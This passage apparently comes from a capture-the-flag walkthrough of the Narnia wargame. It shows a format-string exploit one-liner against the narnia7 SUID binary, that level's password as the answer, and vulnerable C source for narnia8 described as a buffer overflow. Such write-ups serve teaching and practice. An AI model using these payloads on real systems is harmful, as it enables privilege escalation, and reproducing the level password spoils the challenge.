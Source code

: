 I used DPA to perform a format string attack then, with a copy of SUID program in `/tmp/cc`, I generated a core dump file in order to set the string passed as argument.

```bash
$ ./narnia7 $(python -c 'print "\x7c\xd4\xff\xff"*18+"\x7d\xd4\xff\xff"+"\x7e\xd4\xff\xff"+"\x7f\xd4\xff\xff"+"aa%23$n"+"aaaa"*12+"a"+"%24$n"+"bbbb"*31+"b"+"%25$n"+"aaaa"+"%26$n"')
```

##### PASS=mohthuphog



------------------------------------------------------------------------------------------------------------------------------------




## narnia8 -> narnia9

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
// gcc's variable reordering fucked things up
// to keep the level in its old style i am
// making "i" global unti i find a fix
// -morla
int i;

void func(char *b){
	char *blah=b;
	char bok[20];
	//int i=0;

	memset(bok, '\0', sizeof(bok));
	for(i=0; blah[i] != '\0'; i++)
		bok[i]=blah[i];

	printf("%s\n",bok);
}

int main(int argc, char **argv){

	if(argc > 1)
		func(argv[1]);
	else
	printf("%s argument\n", argv[0]);

	return 0;
}
```
This last exploit consists in a buffer overflow.
The for iteration in func is a byte to byte assignment that stops if our argv[1] contains null byte for any i>0.
